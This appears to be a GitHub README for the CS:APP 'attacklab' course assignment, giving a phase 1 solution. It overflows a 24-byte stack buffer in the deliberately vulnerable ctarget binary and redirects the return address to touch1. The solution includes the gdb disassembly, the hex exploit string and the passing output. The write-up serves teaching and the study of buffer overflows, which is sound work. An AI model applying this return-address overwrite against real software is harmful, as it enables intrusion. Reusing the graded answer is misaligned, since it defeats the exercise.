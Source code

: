 # attacklab

### Table of contents

* [File introduction](#file-introduction)
* [Commands](#commands)

<h3 id = "file introduction">File introduction</h3> 

README.txt: A file describing the contents of the directory

ctarget: An executable program vulnerable to code-injection attacks

rtarget: An executable program vulnerable to return-oriented-programming attacks

cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.

farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
	     programming attacks.

hex2raw: A utility to generate attack strings.

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

Functions Gets() and gets() have no way to determine whether their destination buffers are large
enough to store the string they read. They simply copy sequences of bytes, possibly overrunning the bounds of the storage allocated at the destinations.

The exploit string must not contain byte value 0x0a at any intermediate position, since this is the
ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to
terminate the string.

HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to
create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef
you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte
ordering).

<span id = "commands"></span> 

Commands

#####Using HEX2RAW

```shell
unix> ./hex2raw < exploit.txt > exploit-raw.txt          # store the raw string in a file
```

#####Using GDB

```
unix> gdb ctarget                                        # use gdb to run ctarget
(gdb) run < exploit-raw.txt -q                           # add -q to run locally
(gdb) print <variable>                                   # print the value of the variable
(gdb) break *<addr>                                      # set break point
(gdb) x/<n/f/u> <addr>                                   # print the value stored at the address
```

More usages can be found in [gdb-ref](./gdb-ref.md)

#####Generating byte codes

```shell
unix> gcc -c example.s
unix> objdump -d example.o
```

---

### Part I: Code Injection Attacks

>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
>the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

#### phase1

Function getbuf is called within CTARGET by a function test having the following C code:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

When getbuf executes its return statement (line 5 of getbuf), the program ordinarily resumes execution
within function test (at line 5 of this function). We want to change this behavior. Within the file ctarget,
there is code for a function touch1 having the following C representation:

```c
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. We can overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. 

run ctarget executable in gdb and set a breakpoint at getbuf 

```shell
gdb ctarget
(gdb) break getbuf
(gdb) run -q
```

Then disasemble the getbuf function 

```
(gdb) disas
```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out. 

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

` sub $0x18,%rsp`  indicates that 24(0x18) bytes of buffer is allocated for getbuf. So we need to input 24 bytes of padding followed by the return address of the touch1. 

To find the address the touch1, we need to get the disassembled code.

```
(gdb) dissassemble touch1
```

 Then we get codes which looked like

```
Dump of assembler code for function touch1:
   0x0000555555555965 <+0>:	sub    $0x8,%rsp
   0x0000555555555969 <+4>:	movl   $0x1,0x202b69(%rip)        # 0x5555557584dc <vlevel>
   0x0000555555555973 <+14>:	lea    0x178d(%rip),%rdi        # 0x555555557107
   0x000055555555597a <+21>:	callq  0x555555554de0 <puts@plt>
   0x000055555555597f <+26>:	mov    $0x1,%edi
   0x0000555555555984 <+31>:	callq  0x555555555db6 <validate>
   0x0000555555555989 <+36>:	mov    $0x0,%edi
   0x000055555555598e <+41>:	callq  0x555555554f60 <exit@plt>
End of assembler dump.
```

So it's address is at `0x555555555965` 

We can also use `p touch1`  to get its address

```
(gdb) p touch
$1 = {void ()} 0x555555555965 <touch1>
```

Finally create a text file named atk1.txt which will look like below  

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    /* the first 24 padding bytes */
65 59 55 55 55 55 00 00    /* address of touch1 */
```

When writing the bytes, we need to consider the byte order. My system is a little-endian so the bytes go in reverse order.  

Now run this file through the program hex2raw, which  generates raw exploit strings , and run the raw file

```shell
./hex2raw < atk1.txt > atk1r.txt

./ctarget < atk1r.txt             # use I/O redirection

unix> gdb ctarget                 # within GDB
(gdb) run < atk1r.txt
```

We can get something like below if our solution is right

```shell
Cookie: 0x5f5bd74e                # your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```


